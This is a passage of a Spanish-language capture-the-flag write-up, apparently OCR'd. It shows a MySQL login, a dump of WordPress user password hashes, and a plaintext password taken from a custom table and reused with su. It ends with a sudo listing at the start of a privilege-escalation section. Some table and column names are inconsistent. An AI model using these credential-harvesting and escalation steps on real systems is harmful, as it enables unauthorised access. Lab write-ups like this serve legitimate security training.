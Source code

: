 ahora procedemos a conectarnos:
```bash
mysql -u admin -p # ( rooteable )
```

Una ves conectados, Enocntramos **wordpress** que es la base de datos del servidor con una tabla: 
```bash
mysql> desc wp_users;
```

Ahora enumeramos los el usuario y su contrasena:
```bash
mysql> SELECT user_login, user_pass FROM wp_users;
```

Resultado:
```bash
+------------+------------------------------------+
| user_login | user_pass                          |
+------------+------------------------------------+
| pressi     | $P$BeinDKnzoAYpx.wCePjkJeVNV5plCW. |
| hacker     | $P$BiO9aZSB4m/CMeGjq3o4PPaE4ipdIt/ |
+------------+------------------------------------+
```

Tambien tenemos **wp_usersname;** que es donde puede que esten las claes del usuario **Enter**
```bash
mysql> desc wp_usersname;
```

Listamos la informacion:
```bash
SELECT user_login, user_pass FROM wp_usernames;
```

Resultado: Tenemos las claves de acceso del usuario **Enter**
```bash
+----------+-----------------+
| username | password        |
+----------+-----------------+
| enter    | kernellinuxhack |
+----------+-----------------+
```

Ahora migraremos a este usuario: **Enter**
```bash
su enter #( kernellinuxhack )
```

### Explotacion de Privilegios

###### Usuario `[ Enter ]`:
Tenemos estos dos binarios que podemos explotar:
```bash
sudo -l

User enter may run the following commands on bd894d01f530:
    (ALL : ALL) NOPASSWD: /usr/bin/cat
    (ALL : ALL) NOPASSWD: /usr/bin/whoami
```
